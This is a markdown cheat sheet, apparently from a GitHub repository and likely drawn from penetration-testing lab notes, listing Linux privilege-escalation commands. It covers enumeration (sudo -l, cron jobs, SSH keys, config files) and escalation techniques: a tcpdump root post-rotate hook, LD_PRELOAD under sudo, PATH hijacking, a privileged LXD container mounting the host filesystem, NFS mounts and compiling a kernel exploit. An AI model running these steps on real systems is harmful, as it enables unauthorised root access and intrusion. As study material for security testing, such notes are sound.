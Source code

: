 # The Linux Privilege Escalation Cheatsheet
---

See processes running as root
```bash
ps aux \| grep root
```

See logged in users
```bash
ps au
```

View user home directories
```bash
ls /home
```

Check for SSH keys for current user 
```bash
ls -l ~/.ssh
```

Check the current user's Bash history
```bash
history
```

Can the user run anything as another user? 
```bash
sudo -l
```

Check for daily Cron jobs 
```bash
ls -la /etc/cron.daily
```

Check for unmounted file systems/drives
```bash
lsblk
```



Check the Kernel version
```bash
uname -a
```

Check the OS version
```bash
cat /etc/lsb-release 
```

Compile an exploit written in C 
```bash
gcc kernel_expoit.c -o kernel_expoit
```

Check the installed version of `Screen`
```bash
screen -v
```





Priv esc with `tcpdump
```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Check the current user's PATH variable contents 
```bash
echo $PATH
```

Add a `.` to the beginning of the current user's PATH 
```bash
PATH=.:${PATH}
```

Search for config files
```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

View the shared objects required by a binary 
```bash
ldd /bin/ls
```

Escalate privileges using `LD_PRELOAD
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

Check the RUNPATH of a binary
```bash
readelf -d payroll  \| grep PATH
```

Compiled a shared libary
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Start the LXD initialization process
```bash
lxd init
```

Import a local image
```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged LXD container 
```bash
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system in a container 
```bash
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Start the container
```bash
lxc start r00t
```

Show the NFS export list 
```bash
showmount -e 10.129.2.12
```

Mount an NFS share locally 
```bash
sudo mount -t nfs 10.129.2.12:/tmp /mnt
```

Created a shared `tmux` session socket
```bash
tmux -S /shareds new -s debugsess
```

Perform a system audit with `Lynis
```bash
./lynis audit system
```